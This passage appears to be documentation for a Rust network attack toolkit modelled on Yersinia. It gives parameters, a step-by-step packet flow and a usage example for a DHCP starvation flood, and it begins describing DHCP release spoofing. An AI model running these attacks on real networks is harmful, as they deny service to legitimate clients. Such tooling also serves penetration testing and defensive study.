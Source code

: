 ### Parameters
- `rate_pps`: Packets per second (default: 100)
- `target_server`: Target specific server or broadcast (default: None/broadcast)
- `use_random_mac`: Generate random MAC for each request (default: true)
- `use_random_xid`: Generate random transaction ID (default: true)
- `duration_secs`: Attack duration in seconds (default: None/indefinite)

### Attack Flow
```
1. Generate random MAC address (unicast, locally administered)
2. Generate random transaction ID
3. Build DHCP DISCOVER packet with:
   - op = BOOTREQUEST (1)
   - Random MAC in chaddr field
   - Broadcast flag set (0x8000)
   - Message Type option = DISCOVER
4. Send to broadcast address (255.255.255.255:67)
5. Repeat at specified rate
```

### Usage Example
```rust
let attack = DhcpStarvationAttack::new()
    .with_rate(100)                    // 100 packets per second
    .with_random_mac(true)             // Use random MACs
    .with_duration(60);                // Run for 60 seconds

let stats = attack.execute(|packet| {
    // Send packet logic here
    Ok(())
});

println!("Sent {} DISCOVER packets", stats.packets_sent);
println!("Average rate: {:.2} pps", stats.pps());
```

### Impact
- Exhausts DHCP server IP pool
- Legitimate clients cannot obtain IP addresses
- Network-wide DoS attack
- Can affect business operations

## Attack 2: DHCP Release Spoofing

**Reference**: Yersinia C code `dhcp_th_dos_send_release()`

### Description
Sends spoofed DHCP RELEASE messages to force clients to release their IP addresses. Can target specific clients or generate random releases within a subnet.
